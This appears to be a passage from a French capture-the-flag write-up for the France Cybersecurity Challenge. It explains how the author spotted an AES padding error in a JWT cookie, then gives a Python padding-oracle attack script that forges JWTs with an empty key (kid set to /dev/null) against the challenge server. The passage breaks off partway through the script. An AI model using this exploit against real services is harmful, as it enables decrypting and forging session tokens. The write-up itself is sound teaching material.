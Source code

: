 ![alt](Images/3.png)

Cela ne m'a pas servi à grand chose, j'ai ensuite décidé de changer un des caractères présents dans enciphered_payload, de signer le token (avec une chaîne vide) et d'actualiser la page du challenge :

![alt](Images/4.png)

Cette erreur est très intéressante, en effet, selon mon hypothèse, nos informations (test/test) doivent être contenues dans enciphered_payload. Cette erreur de padding m'a laissé supposer qu'enciphered_payload était peut être le résultat du chiffrement de nos informations par l'algorithme AES (Advanced Encryption Standard).

Avec cette erreur de padding, je sais qu'il est possible de retrouver le plaintext qui a été chiffré avec AES. J'ai donc cherché un script sur internet capable de faire cela et j'ai fini par trouver cette [librarie](https://github.com/mwielgoszewski/python-paddingoracle) capable de réaliser l'attaque que j'avais en tête.

J'ai dû modifier le script réalisant l'attaque car il envoyait directement l'AES, alors que pour nous, il est dans un JSON Web Token :

```py
from paddingoracle import BadPaddingException, PaddingOracle
from base64 import b64encode, b64decode
from urllib import quote, unquote
import requests
import socket
import time
import jwt
import sys
payload = {
    "sub": "🍪🍪🍪",
    "exp": 1619976113,
    "enciphered_payload": ""
}

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.session = requests.Session()
        self.wait = kwargs.get('wait', 2.0)

    def oracle(self, data, **kwargs):
        hexdata = ''.join('{:02x}'.format(x) for x in data)
        payload["enciphered_payload"] = hexdata
        strange = jwt.encode(payload,"",algorithm="HS512",headers={"kid":"/dev/null"}).decode()
        self.session.cookies['strange_cookie'] = strange

        while 1:
            try:
                response = self.session.get('http://challenges2.france-cybersecurity-challenge.fr:5004/',
                        stream=False, timeout=5, verify=False)
                break
            except (socket.error, requests.exceptions.RequestException):
                logging.exception('Retrying request in %.2f seconds...',
                                  self.wait)
                time.sleep(self.wait)
                continue

        self.history.append(response)

        if "padding" not in response.text:
            logging.debug('No padding exception raised on %r', data)
            return
```